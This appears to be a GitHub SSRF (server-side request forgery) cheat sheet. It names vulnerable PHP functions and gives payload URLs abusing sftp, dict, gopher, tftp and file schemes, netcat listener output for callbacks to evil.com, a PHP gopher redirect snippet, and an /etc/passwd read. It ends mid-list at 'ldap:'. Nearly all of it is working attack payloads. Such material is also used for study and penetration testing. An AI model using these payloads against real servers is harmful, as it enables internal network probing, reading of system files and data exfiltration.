 # SSRF---Server-side-request-forgery
Cheat sheet

###########################################

SSRF PHP function

file_get_contents()
fsockopen()
curl_exec()

###########################################

URL schema support

SFTP:

http://example.com/ssrf.php?url=sftp://evil.com:11111/

evil.com:$ nc -v -l 11111
Connection from [192.168.0.10] port 11111 [tcp/*] accepted (family 2, sport 36136)
SSH-2.0-libssh2_1.4.2

Dict:

http://example.com/ssrf.php?dict://attacker:11111/

evil.com:$ nc -v -l 11111
Connection from [192.168.0.10] port 11111 [tcp/*] accepted (family 2, sport 36136)
CLIENT libcurl 7.40.0

gopher:

// http://example.com/ssrf.php?url=http://evil.com/gopher.php
<?php
        header('Location: gopher://evil.com:12346/_HI%0AMultiline%0Atest');
?>

evil.com:# nc -v -l 12346

Listening on [0.0.0.0] (family 0, port 12346)
Connection from [192.168.0.10] port 12346 [tcp/*] accepted (family 2, sport 49398)
HI
Multiline
test

TFTP:

http://example.com/ssrf.php?url=tftp://evil.com:12346/TESTUDPPACKET

evil.com:# nc -v -u -l 12346
Listening on [0.0.0.0] (family 0, port 12346)
TESTUDPPACKEToctettsize0blksize512timeout6

file:

http://example.com/redirect.php?url=file:///etc/passwd

ldap:
